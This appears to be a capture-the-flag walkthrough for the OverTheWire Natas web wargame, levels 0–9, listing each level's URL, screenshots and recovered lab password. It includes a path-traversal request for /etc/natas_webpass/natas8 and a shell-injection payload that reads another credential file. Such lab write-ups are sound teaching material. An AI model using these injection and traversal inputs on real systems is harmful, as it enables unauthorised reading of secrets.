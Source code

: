 # Natas
## Level 0
```
Username: natas0
Password: natas0
```
* http://natas0.natas.labs.overthewire.org

![](https://i.imgur.com/hh8ZogL.png)
* password
```
gtVrDuiDfck831PqWsLEZy5gyDz1clto
```
## Level 0 - 1
* http://natas1.natas.labs.overthewire.org

![](https://i.imgur.com/scBGOqP.png)
* password
```
ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi
```
## Level 1 - 2
* http://natas2.natas.labs.overthewire.org
```
<img src="files/pixel.png">
```

![](https://i.imgur.com/T6HDBMb.png)

```
http://natas2.natas.labs.overthewire.org/files
```

![](https://i.imgur.com/sioADqa.png)

```
http://natas2.natas.labs.overthewire.org/files/users.txt
```

![](https://i.imgur.com/vh0t5vB.png)
* password
```
sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
```
## Level 2 - 3
* http://natas3.natas.labs.overthewire.org

![](https://i.imgur.com/UnvOwWY.png)

```
https://natas3.natas.labs.overthewire.org/robots.txt
```

![](https://i.imgur.com/akd0EF6.png)

```
https://natas3.natas.labs.overthewire.org/s3cr3t/
```

![](https://i.imgur.com/JR9UAiV.png)
```
http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt
```

![](https://i.imgur.com/vr8wjvG.png)

* password
```
Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
```
## Level 3 - 4
* http://natas4.natas.labs.overthewire.org

![](https://i.imgur.com/4VeYxue.png)

![](https://i.imgur.com/GTaQvnd.png)

* password
```
iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
```
## Level 4 - 5
* http://natas5.natas.labs.overthewire.org

![](https://i.imgur.com/0ou8ZLQ.png)

![](https://i.imgur.com/rVP27Og.png)

* password
```
aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
```
## Level 5 - 6
* http://natas6.natas.labs.overthewire.org

![](https://i.imgur.com/FsXGMRT.png)

![](https://i.imgur.com/11oYqbU.png)

![](https://i.imgur.com/GbsqPUk.png)

* secret
```
FOEIUWGHFEEUHOFUOIU
```

![](https://i.imgur.com/EWQppJ7.png)

* password
```
7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
```
## Level 6 - 7
* http://natas7.natas.labs.overthewire.org

```
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
```

![](https://i.imgur.com/dnPKvwY.png)

```
index.php?page=/etc/natas_webpass/natas8
```

![](https://i.imgur.com/7BavDqS.png)

* password
```
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
```
## Level 7 - 8
* http://natas8.natas.labs.overthewire.org
* view source code.

![](https://i.imgur.com/TDcKsZp.png)

* reverse encode to get password.
```
<?php
$secret = "3d3d516343746d4d6d6c315669563362";
$txt = base64_decode(strrev(hex2bin($secret)));
echo "$txt";
?>
```
```
oubWYf2kBq
```
![](https://i.imgur.com/UDCWpQq.png)

![](https://i.imgur.com/w8yMWXF.png)

* password
```
W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
```
## Level 8 - 9
* http://natas9.natas.labs.overthewire.org

* view source code.

![](https://i.imgur.com/LpSbMoa.png)

* inject shell command.
```
; cat /etc/natas_webpass/natas10 #
```

![](https://i.imgur.com/LydNdsw.png)

* password
```
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```
